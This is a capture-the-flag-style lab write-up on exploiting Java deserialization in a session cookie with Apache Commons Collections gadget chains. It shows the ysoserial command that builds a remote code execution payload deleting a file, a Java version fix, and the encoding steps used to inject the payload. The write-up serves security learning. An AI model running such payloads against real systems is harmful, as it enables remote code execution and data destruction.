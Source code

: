 # Exploiting Java deserialization with Apache Commons

## This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

## To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

Download the "ysoserial" tool and execute the following command:

### step2

login into an account
copy cookies and decode cookies
cookies starts with `rO0` which is a strong indication that it is a base64 encoded serialized Java object

![screenshot](images/lab5_cookies.jpg)

### Payload `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:32)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:26)
at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

### step3

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.6 2023-01-17
OpenJDK Runtime Environment (build 17.0.6+10-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.6+10-Debian-1, mixed mode, sharing)

### step4

### Error fix

to fix ### step2 error
run nti cmd
\_update-java-alternatives --list
java-1.11.0-openjdk-amd64 1111 /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64 1711 /usr/lib/jvm/java-1.17.0-openjdk-amd64

### step5

sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64

### step6

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)

### step6

after changing java version
use the below command
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > CookiesToUse.txt

### step7

copy CookiesToUse.txt content into decoder
encode into  URL-encode

### step8

replace cookies with encoded url
forword request lab solved
